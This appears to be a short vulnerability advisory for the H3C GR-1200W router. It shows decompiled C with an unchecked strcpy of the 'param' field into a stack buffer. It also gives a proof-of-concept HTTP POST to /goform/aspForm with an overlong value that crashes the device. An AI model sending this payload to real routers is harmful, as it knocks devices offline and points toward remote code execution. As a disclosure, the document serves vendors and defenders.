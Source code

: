 ### Affected product

```
H3C GR-1200W
```
In function sub_4ACC30,the content obtained by the program from the parameter "param" is passed to v2 .Then the v2 is directly copied into the v3 stack through the strcpy function.
There is no size check, so there is a stack overflow vulnerability.The attacker can easily perform a Deny of Service Attack or Remote Code 
Execution with carefully crafted overflow data.

### Detail

```c
int __fastcall sub_4ACC30(int a1)
{
  const char *v2; // [sp+28h] [+28h]
  int v3[9]; // [sp+2Ch] [+2Ch] BYREF

  v3[0] = 0;
  v3[1] = 0;
  v3[2] = 0;
  v3[3] = 0;
  v3[4] = 0;
  v3[5] = 0;
  v3[6] = 0;
  v3[7] = 0;
  v2 = (const char *)sub_4E58C8(a1, "param", &unk_4FFD30);
  strcpy((char *)v3, v2);
  CFG_Set(0, 505155584, v3);
  return 0;
}
```
### POC

```python
POST /goform/aspForm HTTP/1.1
Host: 192.168.0.11:80
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: https://121.226.152.63:8443/router_password_mobile.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 553
Origin: https://192.168.0.124:80
DNT: 1
Connection: close
Cookie: JSESSIONID=5c31d502
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

CMD=aVersionSet&param=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,;

```




You can see the router crash, and finally we can write an exp to get a root shell
